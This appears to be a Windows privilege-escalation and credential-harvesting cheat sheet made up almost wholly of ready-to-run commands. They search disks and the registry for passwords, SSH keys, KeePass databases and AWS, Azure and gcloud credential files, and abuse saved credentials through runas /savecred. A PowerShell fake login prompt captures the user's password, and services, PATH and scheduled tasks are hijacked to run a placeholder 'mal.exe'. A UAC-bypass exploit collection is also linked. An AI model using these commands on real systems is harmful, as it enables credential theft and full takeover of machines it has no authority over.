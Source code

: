 # Credentials Enum

## Low Hanging Passwords : 
```
> dir /b /a /s c:\ > c:\rto\c-dirs.txt 

> type c:\PATH\dirs.txt | findstr /i passw
```
## Interesting Files : 
```
> type c:\PATH\dirs.txt | findstr /i ssh 

> type c:\PATH\dirs.txt | findstr /i kdbx 

> type c:\PATH\dirs.txt | findstr /i vnc 

- [x] install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db 

- [x] unattend.xml 

- [x] Unattended.xml 

- [x] sysprep.inf 

- [x] sysprep.xml 

- [x] VARIABLES.DAT 

- [x] setupinfo 

- [x] setupinfo.bak 

- [x] web.config 

- [x] SiteList.xml 

- [x] .aws\credentials 

- [x] .azure\accessTokens.json 

- [x] .azure\azureProfile.json 

- [x] gcloud\credentials.db 

- [x] gcloud\legacy_credentials 

- [x] gcloud\access_tokens.db 
```
## Registry : 
```
> reg query "HKCU\Software\ORL\WinVNC3\Password" 

> reg query "HKCU\Software\TightVNC\Server" 

> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" 

> reg query "HKCU\Software\OpenSSH\Agent\Keys" 

> reg query HKLM /f password /t REG_SZ /s 

> reg query HKCU /f password /t REG_SZ /s 

```
## Abusing Credential Manager 

```
> cmdkey /list 

> runas /savecred /user:admin cmd.exe 

> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\PATH\admin.txt" 
```
- Asking User for Creds
```
> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```
## Unsecured Objects
- Using Acesschk
 ```
> accesschk.exe -accepteula -wuvc "Everyone" *
> accesschk.exe -accepteula -wuvc "Users" *
> accesschk.exe -accepteula -wuvc "Authenticated Users" *
> accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\regs.txt 
```
- Searching for all unquoted services binary paths:  

``` 
> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """ 
```
- Checking sshd service configuration and status: 
``` 
> sc query sshd 
> sc qc sshd 
```
- Reonfiguration and exploitation: 
```
> sc config sshd binPath= "c:\mal.exe" 
> sc start sshd 
```
- Reconfiguring a vulnerable service: 
```
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\mal.exe /f 
```
## Execution Flow Hijacking
- Unsecured File System 
```
> accesschk.exe -accepteula -wus "Users" c:\*.* > c:\fld-usr.txt 
> accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\fld-authusr.txt 
```
- Exploiting PATH 

``` 
> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" 
> icacls c:\bin 
> copy c:\windows\system32\cmd.exe c:\bin\notepad.exe 
```
- Missing Services

```
> autorunsc64.exe -a s | more 
> sc query AdobeUpdate 
> sc qc AdobeUpdate 
> copy c:\mal.exe c:\bin\AdobeUpdate.exe 
```
- Missing Task 
``` 
> autorunsc64.exe -a t | more
> c:\autorunsc64.exe -a t | more  
> schtasks /query /tn OneDriveChk /xml 
> copy c:\mal.exe C:\OneDriveChk.exe 
```
- Converting SID to username: 
```
> wmic useraccount where sid='****' get name 
```
## DLL Hijacking 
- [UAC bypass exploits](https://github.com/hfiref0x/UACME)

## GETTING SYSTEM
 -  AlwaysInstallElevated

```
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```
- Abusing Tokens
```
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\tokendance.exe /f 
```
